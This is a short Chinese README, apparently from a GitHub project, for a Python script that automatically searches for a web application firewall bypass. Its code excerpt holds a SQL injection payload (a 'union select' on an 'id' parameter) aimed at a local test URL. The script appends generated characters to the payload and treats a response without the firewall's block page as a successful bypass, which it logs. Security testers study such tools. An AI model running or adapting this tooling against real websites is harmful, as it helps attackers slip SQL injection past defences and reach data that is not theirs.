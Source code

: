 # 自动化bypass WAf

此脚本的用途：
- [x] 获取自定义内容的长度，然后根据自定义长度生成代码并执行

关键点说明
```python
self.data=string.digits+'!' #定义内容
self.payload='http://192.168.241.158/sql.php?id=0%20union%20select%201,2' #要测试的url


 if not '网站防火墙' in rqt.text and not 'NULL' in rqt.text: #判断条件
                print(Fore.GREEN+'[+] '+Fore.WHITE+' Bypass Dog url:{}'.format(jg))
                print(jg,file=open('test.txt','a',encoding='utf-8'))
                exit()
```
![](https://s2.ax1x.com/2019/11/15/MUUNcj.md.png)